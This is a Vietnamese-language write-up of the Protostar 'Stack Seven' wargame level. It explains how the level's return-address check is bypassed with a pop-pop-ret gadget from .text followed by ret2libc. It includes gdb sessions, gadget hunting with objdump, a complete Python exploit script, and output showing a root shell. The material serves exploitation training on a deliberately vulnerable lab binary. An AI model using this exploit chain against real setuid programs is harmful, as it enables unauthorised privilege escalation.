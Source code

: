 # STACK SEVEN

## About

Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Solutions

`STACK SEVEN` giới thiệu về cách chúng ta sử dụng segment .text khi mà địa chỉ bị giới hạn trả về không chỉ còn là stack. Chúng ta sẽ tìm hiểu về các ROPgadget và kỹ thuật khai thác ROP (Return-oriented programming).

Đoạn code sau:

```
  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }
```

if((ret & 0xb0000000) == 0xb0000000)

```
Giả sử ret = 0xb7777777
	     ret & 0xb0000000

	     0xb7777777 
     	   & 0xb0000000
	     __________
             0xb0000000 <-- luôn bằng 0xb0000000
```

Đoạn code này có khả năng chặn mọi địa chỉ trả về mà ta cố ghi đè vào EIP (tất cả bị đưa về `0xb0000000`) nếu như địa chỉ đó nằm trong khoảng từ `0xb0000000` đến `0xbfffffff`.

```
root@protostar:/opt/protostar/bin# gdb -q ./stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) start
Temporary breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
Starting program: /opt/protostar/bin/stack7

Temporary breakpoint 1, main (argc=1, argv=0xbffffd54) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 2088
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

Đoạn địa chỉ từ `0xb0000000` đến `0xbfffffff` là vùng bị giới hạn - gần như tất cả các phân vùng của chương trình trừ những gì trong đoạn từ `0x8048000` đến `0x804a000` -> không thể sử dụng trực tiếp ret2libc như `STACK SIX` mà ta sẽ trả về một địa chỉ nào đó trên phân vùng không bị giới hạn rồi mới quay lại ret2libc.

Ở đây mình chọn `.text` với địa chỉ của `gadget` _ `pop pop ret`.

system(), exit(), "/bin/sh".

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
(gdb) find 0xb7e97000, 0xb7fd9000, "/bin/sh"
0xb7fba23f
1 pattern found.
(gdb) x/s 0xb7fba23f
0xb7fba23f:      "KIND in __gen_tempname\""
(gdb)
```

Nó chạy cùng 1 thư viện với `STACK SIX` @@.

```
root@protostar:/opt/protostar/bin# strings -tx /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh             <-- offset của /bin/sh so với địa chỉ bắt đầu của libc
 
 Địa chỉ của '/bin/sh' = Địa chỉ bắt đầu libc + 0x11f3bf
 0xb7fb63bf = 0xb7e97000 + 0x11f3bf
```

Gadget `pop pop ret`.

`root@protostar:/opt/protostar/bin# objdump -d stack7 | grep -a2 pop`

Có 3 vị trí thỏa mãn 0x80485f7, 0x80485c7, 0x8048492. Mình chọn cái này:

```
 80485c0:       72 de                   jb     80485a0 <__libc_csu_init+0x30>
 80485c2:       83 c4 1c                add    $0x1c,%esp
 80485c5:       5b                      pop    %ebx
 80485c6:       5e                      pop    %esi
 80485c7:       5f                      pop    %edi     * Start gadget for me.
 80485c8:       5d                      pop    %ebp
 80485c9:       c3                      ret
```

Payload của chúng ta bây giờ là:

`payload = "A" * 80 + addr_gadget + + addr_system + addr_exit + addr_shellcode`

File exp.py

```
import struct
pd = "A" * 80
ppr = struct.pack("I", 0x080485c7)
pop1 = "AAAA"
pop2 = "BBBB"
sysadd = struct.pack("I", 0xb7ecffb0)
exitadd = struct.pack("I", 0xb7ec60c0)
binadd = struct.pack("I", 0xb7fb63bf)
payload = pd + ppr + pop1 + pop2 + sysadd + exitadd + binadd
print payload
```

Done!

```
root@protostar:/opt/protostar/bin# (python exp.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAǅAAAAAAAAAAAAǅAAAABBBB`췿c
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
ls
final0	final1	final2	format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7
```


## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://bufferoverflows.net/ret2libc-exploitation-example/>

<https://en.wikipedia.org/wiki/Return-oriented_programming>


